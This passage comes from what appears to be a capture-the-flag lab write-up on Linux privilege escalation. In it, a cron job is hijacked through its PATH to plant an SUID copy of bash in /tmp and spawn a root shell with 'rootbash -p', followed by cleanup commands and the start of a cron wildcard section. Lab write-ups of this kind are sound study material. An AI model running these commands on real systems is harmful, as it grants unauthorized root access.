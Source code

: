 cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

What this file will essentially do is copy the `/bin/bash` contents in a new `rootbash` file under the `/tmp` folder and set its permissions to an SUID executable. We now need to ensure the `overwrite.sh` file we created is an exectable as well so that its contents are executed when ran by cron.

```
chmod +x /home/user/overwrite.sh
```

![image](https://user-images.githubusercontent.com/14150485/172365994-72594fe1-4dbe-43e9-ace5-b5a1a6c9b0cc.png)

After cron picks up the task within a minute, running the `rootbash` file with SUID privileges using the `-p` option will spawn a root shell:

```
/tmp/rootbash -p
```

![image](https://user-images.githubusercontent.com/14150485/172368694-6042e738-ab95-4d48-a587-cffd74e7e0f0.png)

<br/>

Remember to remove the modified code, remove the `/tmp/rootbash` executable and `exit` out of the elevated shell before continuing as you will create this file again later in the room!

`rm /home/user/overwrite.sh`
`rm /tmp/rootbash`
`exit`

![image](https://user-images.githubusercontent.com/14150485/172369341-1c156902-9890-41fd-9c1b-b2b5bf813028.png)

<br/>

### 9.1: What is the value of the PATH variable in /etc/crontab?

<br/>

The full path was listed when we first viewed the contents of the `/etc/crontab` file.

```
/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
```

<br/>
<br/>

## 10: Cron Jobs - Wildcards

<br/>

Let's read through the other cron job script:

```
cat /usr/local/bin/compress.sh
```

![image](https://user-images.githubusercontent.com/14150485/172453181-b97b7c49-a00e-4d5c-9328-a28fdca19eec.png)

```